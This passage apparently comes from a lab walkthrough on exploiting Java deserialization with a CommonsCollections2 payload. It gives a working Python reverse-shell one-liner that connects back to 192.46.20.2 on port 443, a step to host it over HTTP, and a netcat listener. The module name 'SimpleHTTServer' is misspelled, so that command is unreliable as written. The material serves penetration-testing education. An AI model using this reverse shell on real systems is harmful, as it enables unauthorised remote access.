 
The result is code execution!

![](./assets/20.png)



After a short, while seeing different responses for each payload, we can see that when CommonsCollections2 is used, pings start to appear.

**Obtain a reverse shell**

To establish a reverse shell we will need to issue a command or series of commands. Keep in mind that in Java deserialization, you can use spaces in the commands, but you cannot use spaces in the arguments of the commands.

**Step 1:** Create a shell script to get the reverse shell from the target machine.

Save this code as **rev.py** in the root directory.

**Code:**

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.46.20.2",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```



**Step 2:** Then let's host the above using Python's SimpleHTTPServer module in the directory where rev is present.

**Command:**

```bash
python -m SimpleHTTServer 8443
```

**Step 3:** In another terminal window, start a Netcat listener.

**Command:**

```
nc -lvp 443
```
